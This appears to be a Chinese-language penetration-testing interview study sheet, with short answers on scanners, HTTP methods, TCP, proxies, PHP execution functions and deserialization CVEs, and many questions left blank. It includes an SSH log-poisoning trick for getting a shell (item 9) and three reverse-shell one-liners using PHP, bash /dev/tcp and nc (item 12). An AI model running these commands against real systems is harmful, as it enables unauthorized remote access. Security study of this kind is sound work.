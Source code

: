 linux 30%
windows 10%
渗透	原理 绕过思路 40%
开放性命题 20%

1. web扫描器的原理	
	Web漏洞扫描通常采用两种策略，第一种是被动式策略，第二种是主动式策略。所谓被动式策略就是基于主机之上，对系统中不合适的设置、脆弱的口令以及其他与安全规则抵触的对象进行检查;而主动式策略是基于网络的，它通过执行一些脚本文件模拟对系统进行攻击的行为并记录系统的反应，从而发现其中的漏 洞。利用被动式策略的扫描称为系统安全扫描，利用主动式的策略扫描称为网络安全扫描。
	

扫描过程 会使用什么形式进行扫描？
	head
	

2.  GET/POST 之外的请求有哪些？
	PUT HEAD DELETE CONNECT TRACE OPTIONS
	
3.  同源策略
	所谓的同源，指的是协议，域名，端口相同。

4. windows计划任务 
	schtasks at
linux 计划任务位置
		/var/spool/cron/*
		/var/spool/anacron/*
		/etc/crontab
		/etc/anacrontab
		/etc/cron.*
		/etc/anacrontab

5. tcp udp 区别
	TCP是面向连接的，而UDP是面向非连接的，即发送数据前不需要建立连接。
	TCP提供可靠服务，而UDP无法保证可靠的数据传输。
	TCP面向字节流UDP面向报文
	TCP传输数据慢。UDP传输数据快。
tcp 三次握手
		三次握手过程
		建立TCP连接时，需要客户端和服务器共发送3个包。
		第一次：客户端发送初始序号x和syn=1请求标志
		第二次：服务器发送请求标志syn，发送确认标志ACK，发送自己的序号seq=y，发送客户端的确认序号ack=x+1
		第三次：客户端发送ACK确认号，发送自己的序号seq=x+1，发送对方的确认号ack=y+1

6. 正向代理和反向代理
	正向代理 是一个位于客户端和原始服务器(origin server)之间的服务器，为了从原始服务器取得内容，客户端向代理发送一个请求并指定目标(原始服务器)，然后代理向原始服务器转交请求并将获得的内容返回给客户端。客户端必须要进行一些特别的设置才能使用正向代理。
	反向代理（Reverse Proxy）实际运行方式是指以代理服务器来接受internet上的连接请求，然后将请求转发给内部网络上的服务器，并将从服务器上得到的结果返回给internet上请求连接的客户端，此时代理服务器对外就表现为一个服务器。

7. http的基础认证爆破
	bp 账号：密码	base64

8. php命令执行函数有哪些？
	eval/assert/preg_replace/create_function
	system/passthru/exec/shell_exec/popen/proc_open/pcntl_exec/dl/`xx`

9. 已知有文件包含漏洞和22端口，如何利用最后拿shell
	ssh '<?php phpinfo(); ?>'@IP
	然后文件包含登陆日志
	ssh日志默认是在/var/log/auth.log下，默认其它用户是有read的权限的。
	
10. linux被入侵之后 你该怎么做应急？
	
https://xz.aliyun.com/t/1140
	
11. webshell检测思路

    

12. 常用的反弹shell命令

    ```php
    php -r '$sock=fsockopen("192.168.11.101",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
    ```

    ```bash
    bash -i >& /dev/tcp/192.168.20.151/8080 0>&1
    ```

    ```bash
    nc 192.168.31.151 7777 -t  /bin/bash
    ```

    

13. SQL注入写webshell

    

14. DNS在渗透中的作用
    子域名劫持  
    C2

15. 如何防治XXE漏洞产生？

    

16. XXE利用？

    

17. tomcat的加固

    https://www.cnblogs.com/panwenbin-logs/p/8177523.html

18. 如何防范ddos攻击	memcache放大	DNS放大 ntp放大

    

19. 常见中间件反序列化漏洞举例

    - fastjson 1.2.24 反序列化导致任意命令执行漏洞
    - JBoss JMXInvokerServlet 反序列化漏洞
    - JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）
    - Apache Shiro 1.2.4反序列化漏洞（CVE-2016-4437）
    - Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞（CVE-2017-10271）
    - Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）

20. CSRF、SSRF和重放攻击原理和区别

    

21. 渗透测试的流程*
    前期交互 -> 情报收集 -> 威胁建模 -> 漏洞分析 -> 漏洞攻击 -> 后渗透 -> 报告

22. xss绕过问题

    

23. DNS C2 溯源思路
    ipconfig /displaydns

24. 未授权访问漏洞的利用形式 （详细）

    

25. 

26. 

27. 

28. 

29. 

30. 

31. 

32. 
